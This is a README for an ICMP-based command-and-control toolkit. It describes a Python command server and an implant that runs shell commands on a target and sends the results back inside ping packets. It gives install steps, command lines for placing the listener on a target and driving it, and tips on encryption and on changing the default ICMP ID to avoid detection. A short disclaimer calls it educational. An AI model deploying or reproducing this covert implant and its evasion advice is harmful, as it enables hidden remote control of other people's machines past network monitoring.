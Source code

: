 # ICMP C2 (Command and Control) Toolkit

A stealthy ICMP-based command and control system that allows remote command execution through ICMP (ping) packets, bypassing traditional network monitoring that often overlooks ICMP traffic.

## Overview

This toolkit consists of two components:

1. **`icmp_command_server.py`** - The C2 server that sends commands to the target
2. **`icmp_listener.py`** - The implant/agent that executes commands and returns results

Both tools use ICMP Echo Request/Reply packets to communicate, making the traffic appear as normal ping activity.

## Features

- **Stealthy Communication**: Uses ICMP packets that blend with normal network traffic
- **Multiple Encoding Options**: Plain text, Base64, and Hex encoding support
- **Compression**: Optional zlib compression to reduce packet size
- **Encryption**: Fernet encryption for secure communications (requires key)
- **Chunking**: Splits large commands/responses across multiple packets
- **Cross-Platform**: Works on any system with Python and scapy

## Requirements

- Python 3.x
- scapy: `pip install scapy`
- cryptography (for encryption): `pip install cryptography`

## Usage

### On the Target Machine (Listener)

```bash
python3 icmp_listener.py -i [INTERFACE] [OPTIONS]
```

### On the C2 Server (Command Server)

```bash
python3 icmp_command_server.py -i [INTERFACE] -d [TARGET_IP] [OPTIONS]
```

## Options

### Common Options (both scripts):
- `-i, --interface`: Network interface to use (required)
- `--icmp-id`: ICMP ID to use for communication (default: 13170)
- `--ttl`: IP TTL value (default: 64)
- `--encoding`: Data encoding method: plain, base64, or hex (default: plain)
- `--compress`: Enable compression
- `--encrypt`: Enable encryption (requires --key)
- `--key`: Encryption key (required if --encrypt is used)
- `--chunk-size`: Maximum chunk size in bytes (default: 500)

### Command Server Specific:
- `-d, --destination_ip`: Target IP address (required)
- `--timeout`: Response timeout in seconds (default: 5)

### Listener Specific:
- `--timeout`: Response timeout in seconds (default: 2)

## Examples

### Basic Usage
```bash
# On target machine
python3 icmp_listener.py -i eth0

# On C2 server
python3 icmp_command_server.py -i eth0 -d 192.168.1.100
```

### With Encryption
```bash
# Generate a key (requires cryptography)
python -c "from cryptography.fernet import Fernet; print(Fernet.generate_key().decode())"

# On target machine
python3 icmp_listener.py -i eth0 --encrypt --key "GENERATED_KEY"

# On C2 server
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --encrypt --key "GENERATED_KEY"
```

### With Encoding and Compression
```bash
# On target machine
python3 icmp_listener.py -i eth0 --encoding base64 --compress

# On C2 server
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --encoding base64 --compress
```

## How It Works

1. The command server sends commands embedded in ICMP Echo Request packets
2. The listener detects these packets, extracts and executes the commands
3. The listener sends back command output in ICMP Echo Reply packets
4. Both components can encode, compress, and encrypt the data for stealth

## Security Considerations

- This tool is for educational and authorized testing purposes only
- ICMP traffic may be blocked by firewalls in secure environments
- Using encryption is recommended for operational security
- The default ICMP ID (13170) can be changed to avoid detection

## Limitations

- Requires root/administrator privileges to send/receive raw packets
- Performance is limited by the IC packet size and network conditions
- Not suitable for large file transfers due to packet size constraints

## Disclaimer

This tool is provided for educational purposes only. Use only on systems you own or have explicit permission to test. The authors are not responsible for any misuse or damage caused by this tool.
